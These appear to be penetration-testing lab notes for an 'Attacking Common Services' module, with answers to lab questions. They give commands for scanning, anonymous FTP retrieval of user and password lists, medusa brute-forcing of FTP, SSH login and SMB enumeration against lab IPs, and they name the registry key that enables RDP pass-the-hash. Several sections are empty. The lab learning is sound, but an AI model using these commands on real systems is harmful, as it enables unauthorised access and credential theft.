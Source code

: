 # Attacking Common Services

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## FTP

### Attacking FTP

**What port is the FTP service running on?**

* `nmap 10.129.27.170 -sVC`
  * FTP on port 2121

**What username is available for the FTP server?**

`ftp anonymous@<IP> 2121`

`get users.list`&#x20;

`get passwords.list`

* try users from the list...
  * second one (robin) working

**Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.**

`medusa -u robin -P passwords.list -h 10.129.205.248 -n 2121 -M ftp`

`ssh robin@10.129.205.248`

* PW
* cat flag.txt

## SMB

### Attacking SMB

`smbclient -L //10.129.205.248/`

`smbmap -H 10.129.205.248`

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## SQL Databases

### Attacking SQL Databases

## RDP

### Attacking RDP

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* connect via RDP

**What is the name of the file that was left on the Desktop? (Format example: filename.txt)**

* pentest-notes.txt

**Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?**

* DisableRestrictedAdmin

**Connect via RDP with the Administrator account and submit the flag.txt as you answer.**

*

## DNS

### Attacking DNS

## SMTP

### Attacking Email Services

## Skills Assessment

### Easy

### Medium

### Hard
